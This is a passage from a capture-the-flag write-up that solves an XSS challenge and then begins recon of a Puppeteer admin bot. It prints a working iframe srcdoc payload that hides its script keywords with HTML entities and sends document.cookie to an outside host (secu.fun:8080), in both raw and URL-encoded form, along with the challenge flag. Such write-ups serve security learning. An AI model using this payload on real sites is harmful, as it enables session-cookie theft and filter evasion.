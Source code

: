From here we can execute javascript in the iframe, and try to retrieve the cookie from its [parent](https://developer.mozilla.org/fr/docs/Web/API/Window/parent) because the `srcdoc` is not not restricted by SOP. 

We encode with problematics keywords with HTML Entity (only the srcdoc payload not the iframe part)

```html
<iframe srcdoc='<s&#99;ript>d&#111;cument.l&#111;cation="http://secu.fun:8080/?c="+d&#111;cument.c&#111;okie;</s&#99;ript>'>
```

![](XSS.png)

Perfect ! Iframe can access to the cookie


## ⏱️ Exfiltration
---

We just have to send our payload report link with `?q=` parameter (don't forget to URL encode):
```url
http://localhost/?q=%3Ciframe%20srcdoc='%3C%26%23115%3B%26%2399%3B%26%23114%3B%26%23105%3B%26%23112%3B%26%23116%3B%3E%26%23100%3B%26%23111;cument.%26%23108%3B%26%23111%3B%26%2399%3B%26%2397%3B%26%23116%3B%26%23105%3B%26%23111%3B%26%23110%3B=%22%26%23104%3B%26%23116%3B%26%23116%3B%26%23112%3B://secu.fun:8080/?%26%2399%3B=%22%2B%26%23100%3B%26%23111;cument.%26%2399%3B%26%23111;okie;%3C/%26%23115%3B%26%2399%3B%26%23114%3B%26%23105%3B%26%23112%3B%26%23116%3B%3E'%3E
```

And obtain the first flag ! 
`PWNME{D1d_y0U_S4iD-F1lt33Rs?}`


## PART 2

## 🔎 - Recon 


To begin with, we'll need to look on the **pupeteer** code.

```js
const logPath = '/tmp/bot_folder/logs/';
const browserCachePath = '/tmp/bot_folder/browser_cache/';

[...]

async function startBot(url, name) {
    const logFilePath = path.join(logPath, `${name}.log`);

    try {
        const logStream = fs.createWriteStream(logFilePath, { flags: 'a' });
        logStream.write(`${new Date()} : Attempting to open website ${url}\n`);

        const browser = await puppeteer.launch({
            headless: 'new',
```